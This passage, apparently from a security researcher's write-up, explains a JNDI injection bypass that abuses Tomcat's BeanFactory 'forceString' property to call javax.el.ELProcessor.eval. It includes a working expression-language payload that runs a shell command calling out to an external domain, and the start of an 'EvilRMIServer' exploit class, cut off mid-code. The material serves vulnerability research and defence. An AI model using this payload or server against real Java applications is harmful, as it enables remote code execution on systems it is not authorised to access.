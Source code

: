 ```
	            setterName = param.substring(index + 1).trim();
	            param = param.substring(0, index).trim();
	        } else {
	            setterName = "set" +
	                         param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
	                         param.substring(1);
	        }

```

The magic property used here is "forceString". By setting it, for example, to "x=eval", we can make a method call with name 'eval' instead of 'setX', for the property 'x'.

So, by utilising the "BeanFactory" class, we can create an instance of arbitrary class with default constructor and call any public method with one "String" parameter.

One of the classes that may be useful here is "**javax.el.ELProcessor**". In its"eval" method, we can specify a string that will represent a Java expression language template to be executed.

```
	package javax.el;
	...
	public class ELProcessor {
	...
	    public Object eval(String expression) {
	        return getValue(expression, Object.class);
	    }

```

And here is a malicious expression that executes arbitrary command when evaluated:

```
	{"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()")}
	 

```

### Chaining all things together

After the patch, there is almost no difference between LDAP and RMI for exploitation purposes, so for simplicity we will use RMI.

We are writing our own malicious RMI server that responds with a crafted "ResourceRef" object:

```
	import java.rmi.registry.*;
	import com.sun.jndi.rmi.registry.*;
	import javax.naming.*;
	import org.apache.naming.ResourceRef;
	 
	public class EvilRMIServerNew {
	    public static void main(String[] args) throws Exception {
	        System.out.println("Creating evil RMI registry on port 1097");
	        Registry registry = LocateRegistry.createRegistry(1097);
	 
	        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
	        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
	        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
	        ref.add(new StringRefAddr("forceString", "x=eval"));
	        //expression language to execute 'nslookup ', modify /bin/sh to cmd.exe if you target windows
```